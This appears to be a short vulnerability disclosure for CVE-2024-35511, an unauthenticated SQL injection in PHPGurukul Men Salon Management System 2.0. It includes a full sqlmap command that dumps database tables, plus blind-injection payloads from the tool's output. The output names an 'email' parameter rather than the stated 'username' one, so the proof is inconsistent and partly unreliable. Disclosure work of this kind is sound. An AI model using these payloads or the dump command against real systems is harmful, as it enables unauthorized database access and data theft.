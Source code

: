 # CVE-2024-35511-PHPGurukul-Men-Salon-Management-System-2.0-SQL-Injection-Vulnerability (Unauthenticated)
+ Exploit Author: efekaanakkar
# Vendor Homepage
+ https://phpgurukul.com/men-salon-management-system-using-php-and-mysql
# Software Link
+ https://phpgurukul.com/?sdm_process_download=1&download_id=14066
# Overview
+ PHPGurukul Men Salon Management System V2.0 is susceptible to a A notable security weakness stems from inadequate safeguarding of the 'Username' parameter within the admin/index.php file. This vulnerability has the potential to be exploited for injecting harmful SQL queries, resulting in unauthorized access and extraction of confidential data from the database.
# Vulnerability Details
+ CVE ID: CVE-2024-35511
+ Affected Version: PHPGurukul Men Salon Management System 2.0 
+ Parameter Name: username
# References
+ https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2024-35511
# Description
+ Inadequate validation and sanitization of the 'username' parameter pave the way for attackers to construct SQL injection queries, circumventing authentication measures and obtaining unauthorized entry to the database.
# Proof of Concept (PoC) : 
+ `sqlmap -u "http://192.168.1.62/msms/admin/index.php" --cookie="PHPSESSID=o890ubil0t0jmdo7qokqcl6tgr; Security_level=0" --data="username=admin&password=admin&login=Sign+In" -p"username" --random-agent --level 3 --risk 3 --dump --tables`

```
---
Parameter: email (POST)
    Type: boolean-based blind
    Title: MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause
    Payload: email=test@test.com' RLIKE (SELECT (CASE WHEN (8847=8847) THEN 0x7465737440746573742e636f6d ELSE 0x28 END)) AND 'ZHEF'='ZHEF&sub=submit

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: email=test@test.com' AND (SELECT 8859 FROM (SELECT(SLEEP(5)))DjVt) AND 'ZEmv'='ZEmv&sub=submit
---

```
+ current database: `msmsdb`
![image](https://github.com/efekaanakkar/CVEs/assets/130908672/7cf45037-3e64-4fff-8337-86292c34ddd2)
